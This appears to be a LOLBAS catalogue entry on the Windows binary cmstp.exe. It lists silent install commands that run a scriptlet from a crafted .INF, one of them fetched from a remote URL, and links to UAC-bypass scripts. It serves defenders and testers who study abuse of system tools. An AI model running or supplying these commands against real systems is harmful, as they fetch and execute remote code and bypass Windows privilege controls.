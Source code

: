 ## Cmstp.exe
* Functions: Execute, UACBypass
```

cmstp.exe /ni /s c:\cmstp\CorpVPN.inf
Silently installs a specially formatted local .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.

cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf
Silently installs a specially formatted remote .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.
```
   
* Resources:   
  * https://twitter.com/NickTyrer/status/958450014111633408
  * https://gist.github.com/NickTyrer/bbd10d20a5bb78f64a9d13f399ea0f80
  * https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e
  * https://oddvar.moe/2017/08/15/research-on-cmstp-exe/
  * https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1 (UAC Bypass)
  * https://github.com/hfiref0x/UACME
   
* Full path:   
  * C:\Windows\system32\cmstp.exe
  * C:\Windows\sysWOW64\cmstp.exe
   
* Notes: Thanks to Oddvar Moe - @oddvarmoe, Nick Tyrer - @NickTyrer  
   
